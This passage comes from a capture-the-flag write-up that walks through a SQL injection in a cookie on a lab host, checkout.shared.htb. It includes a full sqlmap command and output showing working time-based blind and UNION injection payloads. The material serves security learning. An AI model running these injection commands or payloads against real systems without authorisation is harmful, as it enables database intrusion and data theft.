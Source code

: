 I have control over the third column as well, but only for numbers.

#### sqlmap

This SQLI is actually a bit tricky for `sqlmap` to find. If I pass it just the URL and the cookie, I’ll have to increase the level and risk, and it will take 10 minutes:

```

oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --level 3 --risk 3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.6.12#dev}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage 
caused by this program

[*] starting @ 13:11:29 /2022-08-12/
...[snip]...
[13:21:25] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 1763 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: custom_cart={"' AND 2668=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- rRoO":"1"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(0x71707a6b71,0x734c79424b45765669424a43437741676c51796c506b44416258586265587a786d7854696c737a58,0x71717a7871),NULL-- -":"1"}
---
[13:21:27] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[13:21:27] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/checkout.shared.htb'

[*] ending @ 13:21:27 /2022-08-12/

```

But given I already know some details about the injection, I can specify technique and number of columns, and it finds the injection in down to 20 seconds:
